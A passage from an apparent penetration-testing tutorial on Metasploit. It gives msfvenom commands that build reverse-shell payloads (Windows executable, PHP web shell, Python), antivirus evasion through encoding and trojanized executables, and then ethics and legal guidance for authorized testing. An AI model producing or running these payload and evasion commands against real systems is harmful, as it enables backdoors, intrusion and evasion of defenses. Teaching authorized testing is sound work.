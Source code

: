 Run with:
```
msfconsole -r auto_exploit.rc
```

### Using MSFvenom for Payload Creation:
```bash
# List payload options
msfvenom -l payloads

# Create a Windows executable
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > payload.exe

# Create a PHP web shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > shell.php

# Create a Python payload
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw > payload.py
```

### Evading Antivirus:
```bash
# Using encoders
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > encoded_payload.exe

# Using template files
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -x /path/to/legit.exe -f exe > injected.exe
```

## Ethical Considerations and Legal Compliance

### Before Conducting Tests:
1. **Obtain Written Permission**: Always have written authorization before testing any system.
2. **Define Scope**: Clearly define which systems are in-scope and which are out-of-scope.
3. **Establish Rules of Engagement**: Document testing hours, notification procedures, etc.
4. **Have a Point of Contact**: Know who to contact in case of emergencies.

### During Tests:
1. **Stay Within Scope**: Never test systems outside your authorized scope.
2. **Document Everything**: Keep detailed logs of all activities.
3. **Avoid Destruction**: Do not intentionally cause damage or disruption.
4. **Use Reasonable Intensity**: Avoid denial of service conditions.

### After Tests:
1. **Detailed Reporting**: Document all findings, vulnerabilities, and recommendations.
2. **Secure Data Handling**: Properly secure and eventually destroy any sensitive data collected.
3. **Follow-up Support**: Offer assistance in understanding and remediating issues.

### Legal Frameworks to Be Aware Of:
- Computer Fraud and Abuse Act (CFAA) in the US
- General Data Protection Regulation (GDPR) in Europe
- Local computer crime laws in your jurisdiction
